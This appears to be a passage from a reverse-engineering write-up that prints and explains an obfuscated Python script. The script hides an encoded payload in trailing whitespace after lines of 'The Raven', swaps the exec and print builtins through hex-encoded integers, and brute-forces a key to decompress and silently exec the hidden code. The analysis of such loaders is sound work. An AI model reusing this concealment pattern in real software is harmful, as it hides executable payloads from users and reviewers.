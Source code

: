     Once upon a midnight dreary, while I pondered, weak and                                                                                                                                                                                                                         weary,                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  
    Over many a quaint and curious volume of forgotten                                                                                                                                                                                                                              lore-                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             
    """
    ...[snip]...
    import hashlib, io, lzma, pkgutil, random, struct, sys, time
    from ctypes import *
    print('LOADING...')
    BOUNCE = pkgutil.get_data('this', 'key')

    def ho(h, g={}):
        k = bytes.fromhex(format(h, 'x')).decode()
        return g.get(k, k)


    a = 1702389091
    b = 482955849332
    g = ho(29516388843672123817340395359, globals())   # g = __builtins__
    aa = getattr(g, ho(a))                             # aa = exec
    bb = getattr(g, ho(b))                             # bb = print
    a ^= b
    b ^= a                                             # b now is int for exec
    a ^= b                                             # a now is int for print
    setattr(g, ho(a), aa)                              # swap exec and print in builtins
    setattr(g, ho(b), bb)

    def eye(face):
       ...[snip]...


    def fire(wood, bounce):
       ...[snip]...

    for i in range(256):
        try:
            print(lzma.decompress(fire(eye(__doc__.encode()), bytes([i]) + BOUNCE)))
        except Exception:
            pass



There's a few sections to this code:

-   The docstrings at the top appear to be [The
    Raven](https://www.poetryfoundation.org/poems/48860/the-raven) by
    Edgar Allen Poe. There's also a bunch of whitespace at the end of
    each line.
-   It imports some libraries, and uses `pkgutil.get_data` to load the
    file `key` from the package `this` and saves it as `BOUNCE`.
-   There are lines that swap the `exec` and `print` functions in the
    Python builtins. I'll show this in a bit.
-   Two functions are defined, `fire` and `eye`.
-   There's a loop over 0 to 255. For each, the DocStrings are passed to
    `eye`, and the result is passed to `fire` along with the current `i`
    value and `BOUNCE`. The result is LZMA decompressed, and passed to
    `print`, which is actually `exec`. Any exceptions are caught and
    ignored.

